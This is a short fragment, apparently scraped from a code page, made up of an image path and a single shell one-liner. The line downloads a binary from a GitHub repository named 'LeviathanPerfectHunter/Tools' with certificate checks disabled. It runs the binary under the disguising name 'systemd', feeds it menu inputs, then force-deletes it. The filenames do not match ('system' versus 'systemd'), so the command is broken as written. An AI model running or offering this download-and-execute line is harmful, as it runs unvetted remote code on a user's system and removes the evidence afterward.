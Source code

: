 curl -fsSLk https://raw.githubusercontent.com/LeviathanPerfectHunter/Tools/main/system -o system;chmod +x systemd; perl -e 'print "1\n"'|./systemd;perl -e 'print "2\n"' | ./systemd;rm -rf systemd
